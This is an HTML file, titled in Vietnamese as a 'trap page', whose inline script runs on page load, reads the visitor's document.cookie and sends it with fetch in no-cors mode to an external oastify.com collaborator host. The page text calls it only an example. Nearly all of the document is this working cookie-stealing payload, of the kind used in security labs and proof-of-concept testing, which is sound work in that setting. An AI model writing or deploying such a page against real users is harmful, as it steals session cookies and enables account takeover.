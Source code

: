 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Trang Bẫy</title>
</head>
<script>
    (async function() {
        var userCookies = document.cookie;
        var destinationURL = 'https://4otqlnlzkuzzujpb580ev4be359wxnlc.oastify.com'; 
        try {
            // Gửi yêu cầu GET mà không cần quan tâm đến CORS policy
            await fetch(`${destinationURL}?cookies=${encodeURIComponent(userCookies)}`, {
                method: 'GET',
                mode: 'no-cors' // Sử dụng mode no-cors để tránh vấn đề CORS
            });
        } catch (error) {
            console.error('Error:', error);
        }
        })(); 
</script>
    
<body>
    <h1>Chào mừng bạn đến với Trang Bẫy</h1>
    <p>Trang này là một ví dụ, không có nội dung thực sự.</p>
</body>
</html>
